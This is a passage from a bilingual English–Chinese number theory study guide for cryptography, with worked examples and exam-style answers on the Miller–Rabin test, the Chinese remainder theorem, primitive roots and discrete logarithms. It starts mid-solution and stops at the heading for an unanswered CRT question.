\(90=2\cdot45\), so \(k=1\), \(q=45\). For \(a=10\): \(10^{45}\equiv90=n-1\), so TEST returns inconclusive (10 is a liar, as \(91=7\cdot13\)). For \(a=2\): \(2^{45}\equiv57\), which is neither 1 nor 90; with \(k=1\) there is no further check, so TEST returns composite and 2 is a witness.\(90=2\cdot45\)，因此 \(k=1\)、\(q=45\)。对于 \(a=10\)：\(10^{45}\equiv90=n-1\)，因此 TEST 返回“不确定”（10 是说谎者，因为 \(91=7\cdot13\)）。对于 \(a=2\)：\(2^{45}\equiv57\)，既不是 1 也不是 90；由于 \(k=1\)，无需进一步检验，因此 TEST 返回“合数”，且 2 是见证者。
Q2. (True or false) (a) "TEST returns inconclusive for \(a=2\), so \(n\) is prime." (b) "TEST returns composite, so \(n\) is composite." (c) How many random bases give an error probability of at most \(2^{-100}\)?Q2. （判断）(a) “对 \(a=2\)，TEST 返回‘不确定’，因此 \(n\) 是素数。”(b) “TEST 返回‘合数’，因此 \(n\) 是合数。”(c) 需要多少个随机底数，才能使错误概率至多为 \(2^{-100}\)？
Answer
(a) False: \(2047=23\cdot89\) passes for \(a=2\). (b) True: a prime always satisfies fact 2, so failing it proves compositeness; the error is one-sided. (c) \(4^{-t}\le2^{-100}\) needs \(2t\ge100\), so \(t=50\).(a) 错误：\(2047=23\cdot89\) 对 \(a=2\) 通过检验。(b) 正确：素数总满足性质 2，因此未通过该检验即可证明其为合数；错误是单侧的。(c) \(4^{-t}\le2^{-100}\) 需要 \(2t\ge100\)，因此 \(t=50\)。
The Chinese remainder theorem ★★★中国剩余定理
Goal. Solve a system of congruences with pairwise coprime moduli by the CRT formula. Compute modulo \(M\) by working on the residues, and say when a system with non-coprime moduli has a solution.目标。 用 CRT 公式求解模数两两互素的同余方程组。在余数上分别计算，即可在模 \(M\) 下完成运算，并说明模数不互素的方程组何时有解。
Step 1: the statement第 1 步：定理陈述
In words: a number below M is fixed by its remainders modulo several pairwise coprime numbers whose product is M.用文字表述：小于 M 的数，由它对若干两两互素且乘积为 M 的数取模所得的余数唯一确定。
The Chinese remainder theorem（中国剩余定理，CRT）uses moduli \(m_1,\dots,m_k\) that are pairwise relatively prime, with product \(M=m_1m_2\cdots m_k\). Each integer \(A\) from 0 to \(M-1\) corresponds to the list of its residues \((a_1,\dots,a_k)\) with \(a_i=A \bmod m_i\). The theorem says two things.中国剩余定理（CRT）使用两两互素的模数 \(m_1,\dots,m_k\)，它们的乘积为 \(M=m_1m_2\cdots m_k\)。从 0 到 \(M-1\) 的每个整数 \(A\)，对应于它的余数列表 \((a_1,\dots,a_k)\)，其中 \(a_i=A \bmod m_i\)。该定理说了两件事。
- The correspondence is a bijection（双射）: every list of residues belongs to exactly one \(A\). So \(x\equiv a_i \pmod{m_i}\) for all \(i\) has exactly one solution modulo \(M\).这种对应是一个 双射：每个余数列表恰好对应唯一的 \(A\)。因此，对所有 \(i\)，\(x\equiv a_i \pmod{m_i}\) 在模 \(M\) 下恰有一个解。
- Addition, subtraction and multiplication can be done in each coordinate separately.加法、减法和乘法可以在每个分量上分别进行。
Small case: modulo \(10=2\times5\), the conditions \(x \bmod 2=0\) and \(x \bmod 5=3\) give \(x=8\). Uniqueness: two solutions differ by a multiple of every \(m_i\), so by a multiple of \(M\).小例：模 \(10=2\times5\) 下，条件 \(x \bmod 2=0\) 和 \(x \bmod 5=3\) 给出 \(x=8\)。唯一性：两个解之差是每个 \(m_i\) 的倍数，因此也是 \(M\) 的倍数。
Step 2: solving a system第 2 步：解方程组
In words: build one number c_i for each congruence that is 1 for modulus m_i and 0 for all the others, then add up a_i times c_i.用文字表述：为每个同余式构造一个数 c_i，它模 m_i 为 1，模其他所有模数为 0；然后把 a_i 乘以 c_i 全部加起来。
How to do it by hand: 1. Check that the moduli are pairwise coprime. 2. Compute \(M\) and every \(M_i\). 3. Compute every inverse \(M_i^{-1} \bmod m_i\) with Section 3.2. 4. Add \(\sum a_ic_i\) and reduce modulo \(M\). 5. Check the result modulo each \(m_i\).手算方法：1. 检查各模数两两互素。2. 计算 \(M\) 以及每个 \(M_i\)。3. 用第 3.2 节的方法计算每个逆元 \(M_i^{-1} \bmod m_i\)。4. 把 \(\sum a_ic_i\) 加起来，再模 \(M\) 化简。5. 对每个 \(m_i\) 检验结果。
Step 3: arithmetic through residues第 3 步：通过余数做运算
In words: instead of computing modulo a large M, compute modulo each small m_i and convert back at the end.用文字表述：不直接模大数 M 计算，而是分别模每个小模数 m_i 计算，最后再还原。
This idea speeds up RSA decryption (Section 9.3). It also explains \(\phi(mn)=\phi(m)\phi(n)\) for coprime \(m\) and \(n\): \(x\) is coprime to \(mn\) exactly when its residue modulo \(m\) is coprime to \(m\) and its residue modulo \(n\) is coprime to \(n\).这一思想可以加快 RSA 解密（见第 9.3 节）。它还解释了为什么 \(\phi(mn)=\phi(m)\phi(n)\) 对互素的 \(m\) 与 \(n\) 成立：\(x\) 与 \(mn\) 互素，恰好在它模 \(m\) 的余数与 \(m\) 互素、且模 \(n\) 的余数与 \(n\) 互素时成立。
Step 4: moduli that are not coprime第 4 步：模数不互素的情形
The theorem does not apply, but a system can still be solved. Rule: a system is solvable if and only if \(a_i\equiv a_j \pmod{\gcd(m_i,m_j)}\) for every pair. The solution is then unique modulo \(\operatorname{lcm}(m_1,\dots,m_k)\), the least common multiple. Example: \(x\equiv2 \pmod4\) and \(x\equiv4 \pmod6\) give \(x\equiv10 \pmod{12}\), because \(\operatorname{lcm}(4,6)=12\). The system \(x\equiv1 \pmod4\) and \(x\equiv2 \pmod6\) has no solution: the first forces \(x\) odd and the second forces \(x\) even.该定理不再适用，但方程组仍可能有解。规则：当且仅当每一对同余式都满足 \(a_i\equiv a_j \pmod{\gcd(m_i,m_j)}\) 时，方程组可解。此时解在模 \(\operatorname{lcm}(m_1,\dots,m_k)\)（即最小公倍数）下唯一。例：\(x\equiv2 \pmod4\) 和 \(x\equiv4 \pmod6\) 得到 \(x\equiv10 \pmod{12}\)，因为 \(\operatorname{lcm}(4,6)=12\)。方程组 \(x\equiv1 \pmod4\) 与 \(x\equiv2 \pmod6\) 无解：第一个式子迫使 \(x\) 为奇数，第二个式子迫使 \(x\) 为偶数。
Practice练习
Q1. (Calculation) Solve \(x\equiv2\pmod3\), \(x\equiv3\pmod5\), \(x\equiv2\pmod7\).Q1. （计算）求解 \(x\equiv2\pmod3\)、\(x\equiv3\pmod5\)、\(x\equiv2\pmod7\)。
Answer
\(M=105\), \(M_1=35\), \(M_2=21\), \(M_3=15\). Inverses: \(35\equiv2\pmod3\) gives \(2\); \(21\equiv1\pmod5\) gives \(1\); \(15\equiv1\pmod7\) gives \(1\). So \(c=(70,21,15)\) and \(x\equiv2\cdot70+3\cdot21+2\cdot15=233\equiv23\pmod{105}\). Check: \(23 \bmod 3=2\), \(23 \bmod 5=3\), \(23 \bmod 7=2\).\(M=105\)、\(M_1=35\)、\(M_2=21\)、\(M_3=15\)。逆元：\(35\equiv2\pmod3\) 给出 \(2\)；\(21\equiv1\pmod5\) 给出 \(1\)；\(15\equiv1\pmod7\) 给出 \(1\)。因此 \(c=(70,21,15)\) 且 \(x\equiv2\cdot70+3\cdot21+2\cdot15=233\equiv23\pmod{105}\)。验证：\(23 \bmod 3=2\)、\(23 \bmod 5=3\)、\(23 \bmod 7=2\)。
Q2. (Calculation) Compute \(53\cdot47 \bmod 105\) using residues modulo 3, 5 and 7.Q2. （计算）利用模 3、5 与 7 的剩余计算 \(53\cdot47 \bmod 105\)。
Answer
\(53\leftrightarrow(2,3,4)\) and \(47\leftrightarrow(2,2,5)\). Componentwise product: \((2\cdot2 \bmod 3,\ 3\cdot2 \bmod 5,\ 4\cdot5 \bmod 7)=(1,1,6)\). With \(c=(70,21,15)\) from Q1: \(A\equiv1\cdot70+1\cdot21+6\cdot15=181\equiv76\pmod{105}\). Check: \(53\cdot47=2491=23\cdot105+76\).\(53\leftrightarrow(2,3,4)\) 与 \(47\leftrightarrow(2,2,5)\)。逐分量相乘：\((2\cdot2 \bmod 3,\ 3\cdot2 \bmod 5,\ 4\cdot5 \bmod 7)=(1,1,6)\)。利用 Q1 中的 \(c=(70,21,15)\)，得到 \(A\equiv1\cdot70+1\cdot21+6\cdot15=181\equiv76\pmod{105}\)。验证：\(53\cdot47=2491=23\cdot105+76\)。
Q3. (Beyond the text) The moduli need not be coprime. Solve (a) \(x\equiv2\pmod4\), \(x\equiv4\pmod6\); (b) \(x\equiv1\pmod4\), \(x\equiv2\pmod6\).Q3. （课外内容）模数不必互素。求解 (a) \(x\equiv2\pmod4\)，\(x\equiv4\pmod6\)；(b) \(x\equiv1\pmod4\)，\(x\equiv2\pmod6\)。
Answer
(a) Write \(x=2+4t\); then \(2+4t\equiv4\pmod6\) gives \(4t\equiv2\), i.e. \(2t\equiv1\pmod3\), so \(t\equiv2\pmod3\) and \(x=10\). The solution is \(x\equiv10\pmod{12}\), unique modulo \(\operatorname{lcm}(4,6)=12\). (b) \(x\equiv1\pmod4\) forces \(x\) odd, but \(x\equiv2\pmod6\) forces \(x\) even: no solution. General rule: the system is solvable iff \(a_i\equiv a_j\pmod{\gcd(m_i,m_j)}\) for all pairs, and then the solution is unique modulo \(\operatorname{lcm}(m_1,\dots,m_k)\).(a) 写出 \(x=2+4t\)；则 \(2+4t\equiv4\pmod6\) 给出 \(4t\equiv2\)，即 \(2t\equiv1\pmod3\)，因此 \(t\equiv2\pmod3\) 且 \(x=10\)。解为 \(x\equiv10\pmod{12}\)，在模 \(\operatorname{lcm}(4,6)=12\) 下唯一。(b) \(x\equiv1\pmod4\) 要求 \(x\) 为奇数，而 \(x\equiv2\pmod6\) 要求 \(x\) 为偶数：无解。一般规则：当且仅当对所有数对都有 \(a_i\equiv a_j\pmod{\gcd(m_i,m_j)}\) 时方程组可解，且此时解在模 \(\operatorname{lcm}(m_1,\dots,m_k)\) 下唯一。
Primitive roots and discrete logarithms ★★原根与离散对数
Goal. Find the order of a number, decide whether it is a primitive root, and solve equations with a discrete-logarithm table.目标。 求一个数的阶，判断它是否为原根，并用离散对数表求解方程。
Step 1: order and primitive roots第 1 步：阶与原根
In words: the order of a is the number of steps after which its powers come back to 1; a primitive root reaches every residue before that.用文字表述：a 的阶是其幂第一次回到 1 所需的步数；原根在回到 1 之前，就能取遍所有与模互素的剩余。
Let \(\gcd(a,n)=1\). The order（阶）of \(a\) modulo \(n\) is the least \(m>0\) with \(a^m\equiv1 \pmod n\). It always divides \(\phi(n)\). Example: the powers of 7 modulo 19 are \(7,11,1,7,\dots\), so 7 has order 3, and \(3\mid18=\phi(19)\). Orders modulo 19:设 \(\gcd(a,n)=1\)。阶 是 \(a\) 模 \(n\) 的阶，即使 \(a^m\equiv1 \pmod n\) 成立的最小 \(m>0\)。它总是整除 \(\phi(n)\)。例：7 的各次幂模 19 为 \(7,11,1,7,\dots\)，所以 7 的阶是 3，并且 \(3\mid18=\phi(19)\)。下面列出模 19 时各数的阶：
| order阶 | 1 | 2 | 3 | 6 | 9 | 18 |
|---|---|---|---|---|---|---|
| elements元素 | 1 | 18 | 7, 11 | 8, 12 | 4, 5, 6, 9, 16, 17 | 2, 3, 10, 13, 14, 15 |
If the order of \(a\) is \(\phi(n)\), then \(a\) is a primitive root（原根）of \(n\). For a prime \(p\) its powers are exactly \(1,\dots,p-1\) in some order. Primitive roots exist only for \(n=2\), \(n=4\), \(n=p^\alpha\) and \(n=2p^\alpha\), where \(p\) is an odd prime and \(\alpha\) is a positive integer exponent. How to test and list them for a prime \(p\):若 \(a\) 的阶为 \(\phi(n)\)，则 \(a\) 是 \(n\) 的 原根。对于素数 \(p\)，它的各次幂恰好取遍 \(1,\dots,p-1\)（排列顺序不一定）。原根只存在于 \(n=2\)、\(n=4\)、\(n=p^\alpha\) 和 \(n=2p^\alpha\) 这几类模数中，其中 \(p\) 为奇素数，\(\alpha\) 为正整数指数。下面是对素数 \(p\) 检验并列出原根的方法：
- \(a\) is a primitive root if and only if \(a^{(p-1)/r}\not\equiv1 \pmod p\) for every prime divisor \(r\) of \(p-1\). For \(p=19\), \(p-1=2\times3^2\), and \(2^9\equiv18\) and \(2^6\equiv7\) are not 1, so 2 is a primitive root.\(a\) 是原根，当且仅当对 \(p-1\) 的每个素因子 \(r\) 都有 \(a^{(p-1)/r}\not\equiv1 \pmod p\)。以 \(p=19\) 为例，\(p-1=2\times3^2\)，而 \(2^9\equiv18\) 与 \(2^6\equiv7\) 都不为 1，所以 2 是原根。
- Given one root \(g\), the roots are \(g^i\) with \(\gcd(i,p-1)=1\). There are \(\phi(p-1)\) of them. For 19 they are \(2,13,14,15,3,10\).已知一个原根 \(g\)，所有原根为 \(g^i\)，其中 \(\gcd(i,p-1)=1\)。原根共有 \(\phi(p-1)\) 个。模 19 时它们是 \(2,13,14,15,3,10\)。
Step 2: discrete logarithms第 2 步：离散对数
In words: the discrete logarithm of b is the exponent i with a^i ≡ b, and it turns multiplication into addition modulo p − 1.用文字表述：b 的离散对数是满足 a^i ≡ b 的指数 i，它把乘法变成模 p − 1 下的加法。
For a primitive root \(a\) of a prime \(p\), every \(b\in\{1,\dots,p-1\}\) equals \(a^i \bmod p\) for a unique \(i\in\{0,\dots,p-2\}\). This \(i\) is the discrete logarithm（离散对数）\(\mathrm{dlog}_{a,p}(b)\).对于素数 \(p\) 的原根 \(a\)，每个 \(b\in\{1,\dots,p-1\}\) 都可以唯一地写成 \(a^i \bmod p\)，其中指数 \(i\in\{0,\dots,p-2\}\) 唯一。这个 \(i\) 就是 离散对数 \(\mathrm{dlog}_{a,p}(b)\)。
Powers of the primitive root 2 modulo 19:原根 2 模 19 的各次幂：
| \(i\) | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| \(2^i \bmod 19\) | 1 | 2 | 4 | 8 | 16 | 13 | 7 | 14 | 9 | 18 | 17 | 15 | 11 | 3 | 6 | 12 | 5 | 10 |
Sorting these pairs by value gives the logarithms to base 2 modulo 19:把这些数对按取值排序，得到模 19、以 2 为底的对数：
| \(b\) | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| \(\mathrm{dlog}_{2,19}(b)\) | 0 | 1 | 13 | 2 | 16 | 14 | 6 | 3 | 8 | 17 | 12 | 15 | 5 | 7 | 11 | 4 | 10 | 9 |
Step 3: one-way behaviour第 3 步：单向性
Computing \(g^x \bmod p\) is easy: repeated squaring needs about \(\log x\) multiplications. Recovering \(x\) from \(g^x \bmod p\), \(g\) and \(p\) is believed hard for large \(p\). This one-way property underlies Diffie–Hellman key exchange and ElGamal (Chapter 10) and DSA (Chapter 13). A table works only for tiny \(p\).计算 \(g^x \bmod p\) 很容易：反复平方只需约 \(\log x\) 次乘法。而由 \(g^x \bmod p\)、\(g\) 和 \(p\) 求出 \(x\)，对于大的 \(p\) 被认为是困难的。这种单向性是 Diffie–Hellman 密钥交换和 ElGamal（第 10 章）以及 DSA（第 13 章）的基础。查表只适用于很小的 \(p\)。
Practice练习
Q1. (Calculation) Find the order of 3 modulo 11 and all primitive roots of 11.Q1. （计算）求 3 模 11 的阶，以及 11 的所有原根。
Answer
Powers of 3: \(3,9,5,4,1\), so the order is 5 (it divides \(\phi(11)=10\)) and 3 is not a primitive root. Powers of 2: \(2,4,8,5,10,9,7,3,6,1\) have order 10, so 2 is a primitive root. The others are \(2^i\) with \(\gcd(i,10)=1\), i.e. \(i=1,3,7,9\): \(2,8,7,6\). There are \(\phi(10)=4\) primitive roots.3 的各次幂：\(3,9,5,4,1\)，因此阶为 5（它整除 \(\phi(11)=10\)），3 不是原根。2 的各次幂：\(2,4,8,5,10,9,7,3,6,1\)，阶为 10，因此 2 是原根。其余原根为 \(2^i\)，满足 \(\gcd(i,10)=1\)，即 \(i=1,3,7,9\)：\(2,8,7,6\)。共有 \(\phi(10)=4\) 个原根。
Q2. (Calculation) 5 is a primitive root of 23. Using a table of \(\mathrm{dlog}_{5,23}\), solve (a) \(3x^5\equiv2\); (b) \(5^x\equiv6\); (c) \(7x^{10}+1\equiv0\pmod{23}\).Q2. （计算）5 是 23 的原根。利用 \(\mathrm{dlog}_{5,23}\) 表，求解 (a) \(3x^5\equiv2\)；(b) \(5^x\equiv6\)；(c) \(7x^{10}+1\equiv0\pmod{23}\)。
Answer
Table of \(\mathrm{dlog}_{5,23}(b)\) for \(b=1,\dots,22\): 0, 2, 16, 4, 1, 18, 19, 6, 10, 3, 9, 20, 14, 21, 17, 8, 7, 12, 15, 5, 13, 11.\(b=1,\dots,22\) 的 \(\mathrm{dlog}_{5,23}(b)\) 表：0、2、16、4、1、18、19、6、10、3、9、20、14、21、17、8、7、12、15、5、13、11。
(a) Let \(t=\mathrm{dlog}\,x\): \(16+5t\equiv2\pmod{22}\), so \(5t\equiv8\) and \(t\equiv8\cdot9=72\equiv6\) (as \(5^{-1}\equiv9\)); \(x=5^6\equiv8\). (b) \(x=\mathrm{dlog}(6)=18\). (c) \(7x^{10}\equiv22\): \(19+10t\equiv11\pmod{22}\), so \(10t\equiv14\), i.e. \(5t\equiv7\pmod{11}\) and \(t\equiv8\pmod{11}\). Then \(t=8\) or \(19\), giving \(x=16\) or \(7\) (two solutions because \(\gcd(10,22)=2\)).(a) 设 \(t=\mathrm{dlog}\,x\)：\(16+5t\equiv2\pmod{22}\)，因此 \(5t\equiv8\)，且 \(t\equiv8\cdot9=72\equiv6\)（即 \(5^{-1}\equiv9\)）；\(x=5^6\equiv8\)。(b) \(x=\mathrm{dlog}(6)=18\)。(c) \(7x^{10}\equiv22\)：\(19+10t\equiv11\pmod{22}\)，因此 \(10t\equiv14\)，即 \(5t\equiv7\pmod{11}\) 且 \(t\equiv8\pmod{11}\)。于是 \(t=8\) 或 \(19\)，得到 \(x=16\) 或 \(7\)（有两个解，因为 \(\gcd(10,22)=2\)）。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Residue class, \(\mathbb{Z}_n\) | All integers with the same remainder modulo \(n\); \(\mathbb{Z}_n\) holds one representative, 0 to \(n-1\), of each class.模 \(n\) 余数相同的所有整数；\(\mathbb{Z}_n\) 对每个剩余类取一个代表元，范围为 0 到 \(n-1\)。 |
| Bézout identity裴蜀等式 | \(ax+by=\gcd(a,b)\) has integer solutions; the smallest positive value of \(ax+by\) is the gcd.\(ax+by=\gcd(a,b)\) 有整数解；\(ax+by\) 的最小正值是 gcd。 |
| Fundamental theorem of arithmetic算术基本定理 | Every integer above 1 is a product of primes in exactly one way, apart from the order.大于 1 的每个整数都可以唯一地写成素数之积（不计因子次序）。 |
| Squarefree无平方因子 | No prime factor appears twice, for example \(n=pq\); then \(a^{\phi(n)+1}\equiv a\) for all \(a\).没有素因子重复出现，例如 \(n=pq\)；此时对所有 \(a\) 都有 \(a^{\phi(n)+1}\equiv a\)。 |
| Pseudoprime伪素数 | A composite \(n\) with \(a^{n-1}\equiv1 \pmod n\) for some base \(a\); example \(341=11\times31\) for base 2.合数 \(n\)，且对某个底 \(a\) 有 \(a^{n-1}\equiv1 \pmod n\)；例如，对底 2 的 \(341=11\times31\)。 |
| Carmichael number卡迈克尔数 | A composite number with \(a^{n-1}\equiv1\) for every \(a\) coprime to \(n\), such as 561. It fools the Fermat test.对每个与 \(n\) 互素的 \(a\) 都满足 \(a^{n-1}\equiv1\) 的合数，例如 561。它能骗过费马检验。 |
| Witness and liar见证者与说谎者 | Witness: a base that proves \(n\) composite. Liar: a base that lets a composite pass.见证者：能证明 \(n\) 为合数的底。说谎者：会让合数通过检测的底。 |
| AKS testAKS 检测 | Deterministic polynomial-time primality test (2002); slower in practice, so Miller–Rabin stays standard.确定性多项式时间素性检测（2002 年）；实际中较慢，所以 Miller–Rabin 算法仍是标准方法。 |
| Order of a number数的阶 | Least \(m>0\) with \(a^m\equiv1 \pmod n\); it divides \(\phi(n)\). |
| Index索引 | Another name for the discrete logarithm.离散对数的另一种叫法。 |
Exam-style questions考试题型练习
Q1. (Euclid and inverses, 10 marks) (a) Use Euclid's algorithm to find \(\gcd(1547,560)\), showing every division (3). (b) Use the extended algorithm to find integers \(x,y\) with \(1547x+560y=\gcd(1547,560)\) (3). (c) Explain why 560 has no multiplicative inverse modulo 1547 (1). (d) Find \(23^{-1} \bmod 120\) and solve \(23x\equiv5\pmod{120}\) (3).Q1. （欧几里得算法与逆元，10 分）(a) 用欧几里得算法求 \(\gcd(1547,560)\)，并写出每一次除法（3 分）。(b) 用扩展算法求满足 \(1547x+560y=\gcd(1547,560)\) 的整数 \(x,y\)（3 分）。(c) 解释为什么 560 在模 1547 下没有乘法逆元（1 分）。(d) 求 \(23^{-1} \bmod 120\) 并求解 \(23x\equiv5\pmod{120}\)（3 分）。
Answer
(a) \(1547=2\cdot560+427\); \(560=1\cdot427+133\); \(427=3\cdot133+28\); \(133=4\cdot28+21\); \(28=1\cdot21+7\); \(21=3\cdot7+0\). The last nonzero remainder is 7, so \(\gcd=7\).(a) \(1547=2\cdot560+427\)；\(560=1\cdot427+133\)；\(427=3\cdot133+28\)；\(133=4\cdot28+21\)；\(28=1\cdot21+7\)；\(21=3\cdot7+0\)。最后一个非零余数为 7，因此 \(\gcd=7\)。
(b) With \((x,y)\) starting at \((1,0)\) and \((0,1)\) and quotients \(2,1,3,4,1\), the pairs are \((1,-2)\), \((-1,3)\), \((4,-11)\), \((-17,47)\), \((21,-58)\). So \(1547\cdot21+560\cdot(-58)=32487-32480=7\).(b) 以 \((x,y)\) 从 \((1,0)\) 与 \((0,1)\) 开始，并取商 \(2,1,3,4,1\)，各数对为 \((1,-2)\)、\((-1,3)\)、\((4,-11)\)、\((-17,47)\)、\((21,-58)\)。因此 \(1547\cdot21+560\cdot(-58)=32487-32480=7\)。
(c) An inverse of 560 modulo 1547 exists iff \(\gcd(560,1547)=1\); here the gcd is 7, so none exists.(c) 560 在模 1547 下的逆元存在，当且仅当 \(\gcd(560,1547)=1\)；这里最大公约数为 7，因此不存在逆元。
(d) Run on \((120,23)\): \(120=5\cdot23+5\), \(23=4\cdot5+3\), \(5=1\cdot3+2\), \(3=1\cdot2+1\), giving \(120\cdot(-9)+23\cdot47=-1080+1081=1\). Hence \(23^{-1}\equiv47\pmod{120}\) and \(x\equiv5\cdot47=235\equiv115\). Check: \(23\cdot115=2645=22\cdot120+5\).(d) 对 \((120,23)\) 运行：\(120=5\cdot23+5\)、\(23=4\cdot5+3\)、\(5=1\cdot3+2\)、\(3=1\cdot2+1\)，得到 \(120\cdot(-9)+23\cdot47=-1080+1081=1\)。因此 \(23^{-1}\equiv47\pmod{120}\) 且 \(x\equiv5\cdot47=235\equiv115\)。验证：\(23\cdot115=2645=22\cdot120+5\)。
思路：逐行写出除法算式，最后一个非零余数是 gcd；逆元看 a 的系数。
Q2. (Totient and Euler, 10 marks) (a) State Euler's theorem with its condition, and the form that holds for all \(a\) when \(n\) is squarefree (2). (b) Compute \(\phi(300)\) (2). (c) Find the last two decimal digits of \(3^{2025}\) (4). (d) Show that \(a^{\phi(n)+1}\equiv a\pmod n\) fails for \(n=12\), \(a=2\), and explain (2).Q2. （欧拉函数与欧拉定理，10 分）(a) 陈述欧拉定理及其条件，以及当 \(n\) 无平方因子时对所有 \(a\) 成立的形式（2 分）。(b) 计算 \(\phi(300)\)（2 分）。(c) 求 \(3^{2025}\) 的十进制末两位数字（4 分）。(d) 说明 \(a^{\phi(n)+1}\equiv a\pmod n\) 在 \(n=12\)、\(a=2\) 时不成立，并加以解释（2 分）。
Answer
(a) If \(\gcd(a,n)=1\) then \(a^{\phi(n)}\equiv1\pmod n\), where \(\phi(n)\) counts the integers in \(1,\dots,n-1\) coprime to \(n\). If \(n\) is squarefree, \(a^{\phi(n)+1}\equiv a\pmod n\) for every \(a\).(a) 若 \(\gcd(a,n)=1\)，则 \(a^{\phi(n)}\equiv1\pmod n\)，其中 \(\phi(n)\) 统计 \(1,\dots,n-1\) 中与 \(n\) 互素的整数个数。若 \(n\) 无平方因子，则对每个 \(a\) 都有 \(a^{\phi(n)+1}\equiv a\pmod n\)。
(b) \(300=2^2\cdot3\cdot5^2\), so \(\phi(300)=(4-2)(3-1)(25-5)=2\cdot2\cdot20=80\).(b) \(300=2^2\cdot3\cdot5^2\)，因此 \(\phi(300)=(4-2)(3-1)(25-5)=2\cdot2\cdot20=80\)。
(c) We need \(3^{2025} \bmod 100\). \(\gcd(3,100)=1\) and \(\phi(100)=40\); \(2025=50\cdot40+25\), so \(3^{2025}\equiv3^{25}\). Then \(3^5=243\equiv43\), \(3^{10}\equiv43^2=1849\equiv49\), \(3^{20}\equiv49^2=2401\equiv1\), so \(3^{25}=3^{20}\cdot3^5\equiv43\). The last two digits are 43.(c) 我们需要 \(3^{2025} \bmod 100\)。\(\gcd(3,100)=1\) 且 \(\phi(100)=40\)；\(2025=50\cdot40+25\)，因此 \(3^{2025}\equiv3^{25}\)。然后 \(3^5=243\equiv43\)、\(3^{10}\equiv43^2=1849\equiv49\)、\(3^{20}\equiv49^2=2401\equiv1\)，因此 \(3^{25}=3^{20}\cdot3^5\equiv43\)。末两位数字为 43。
(d) \(\phi(12)=4\) and \(2^5=32\equiv8\not\equiv2\pmod{12}\). The number \(12=2^2\cdot3\) is not squarefree and \(\gcd(2,12)\ne1\), so neither form of the theorem applies.(d) \(\phi(12)=4\) 与 \(2^5=32\equiv8\not\equiv2\pmod{12}\)。数 \(12=2^2\cdot3\) 不是无平方因子的，且 \(\gcd(2,12)\ne1\)，因此该定理的两种形式都不适用。
易错：指数对 φ(n) 取模，不是对 n 取模。
Q3. (Miller–Rabin, 10 marks) Let \(n=1105=5\cdot13\cdot17\). (a) Write \(n-1=2^kq\) (1). (b) Apply TEST with \(a=2\), given \(2^{69}\equiv967\), and state the conclusion (4). (c) Fermat's test with \(a=2\) gives \(2^{1104}\equiv1\pmod{1105}\). Why is this no contradiction, and what is special about 1105? (2) (d) State the error bound after \(t\) random bases, the \(t\) needed for error at most \(2^{-80}\), and the average number of odd candidates needed to find a 1024-bit prime (3).Q3. （Miller–Rabin，10 分）设 \(n=1105=5\cdot13\cdot17\)。(a) 写出 \(n-1=2^kq\)（1 分）。(b) 以 \(a=2\) 为底运行 TEST，已知 \(2^{69}\equiv967\)，并给出结论（4 分）。(c) 以 \(a=2\) 为底的费马检验给出 \(2^{1104}\equiv1\pmod{1105}\)。这为何不构成矛盾，1105 有何特殊之处？（2 分）(d) 给出经过 \(t\) 个随机底数后的错误界、使错误至多为 \(2^{-80}\) 所需的 \(t\)，以及找到一个 1024-bit 素数平均需要的奇数候选数（3 分）。
Answer
(a) \(1104=2^4\cdot69\), so \(k=4\), \(q=69\).(a) \(1104=2^4\cdot69\)，因此 \(k=4\)、\(q=69\)。
(b) The chain is \(2^{69}\equiv967\), \(2^{138}\equiv967^2\equiv259\), \(2^{276}\equiv259^2\equiv781\), \(2^{552}\equiv781^2\equiv1\). The test needs \(a^q\equiv1\) (no: 967) or one of \(a^{2^jq}\equiv1104\) for \(j=0,1,2,3\) (values \(967,259,781,1\); no). So TEST returns composite: 2 is a witness. Indeed 781 is a nontrivial square root of 1.(b) 平方链为 \(2^{69}\equiv967\)、\(2^{138}\equiv967^2\equiv259\)、\(2^{276}\equiv259^2\equiv781\)、\(2^{552}\equiv781^2\equiv1\)。检验要求 \(a^q\equiv1\)（不成立：967），或 \(a^{2^jq}\equiv1104\) 中的某一项为 \(j=0,1,2,3\)（其值为 \(967,259,781,1\)；均不成立）。因此 TEST 返回合数：2 是见证者。事实上，781 是 1 的一个非平凡平方根。
(c) \(1105\) is a Carmichael number: it is composite, yet \(a^{1104}\equiv1\pmod{1105}\) for every \(a\) coprime to 1105, so Fermat's test is fooled. Miller–Rabin examines the squaring chain and exposes the nontrivial square root 781.(c) \(1105\) 是卡迈克尔数：它是合数，但对每个与 1105 互素的 \(a\) 都有 \(a^{1104}\equiv1\pmod{1105}\)，因此费马检验会被欺骗。Miller–Rabin 检查平方链，并揭示了非平凡平方根 781。
(d) The probability that a composite passes \(t\) random bases is at most \(4^{-t}\). \(4^{-t}\le2^{-80}\) needs \(t\ge40\). For \(n\approx2^{1024}\) the average number of odd candidates is \(\tfrac12\ln2^{1024}=512\ln2\approx355\).(d) 合数通过 \(t\) 个随机底数检验的概率至多为 \(4^{-t}\)。\(4^{-t}\le2^{-80}\) 需要 \(t\ge40\)。对于 \(n\approx2^{1024}\)，平均奇数候选数为 \(\tfrac12\ln2^{1024}=512\ln2\approx355\)。
Q4. (CRT, 10 marks) (a) Solve \(x\equiv3\pmod5\), \(x\equiv4\pmod7\), \(x\equiv5\pmod9\) with the CRT formula (6). (b) Use the residues to compute \(x^2 \bmod 315\) for your \(x\) (2). (c) Explain why the CRT fails for the moduli 4 and 6 and give a system with no solution (2).Q4. （CRT，10 分）(a) 用 CRT 公式求解 \(x\equiv3\pmod5\)、\(x\equiv4\pmod7\)、\(x\equiv5\pmod9\)（6 分）。(b) 利用剩余为你的 \(x\) 计算 \(x^2 \bmod 315\)（2 分）。(c) 解释 CRT 为何对模数 4 与 6 不适用，并给出一个无解的方程组（2 分）。
Answer
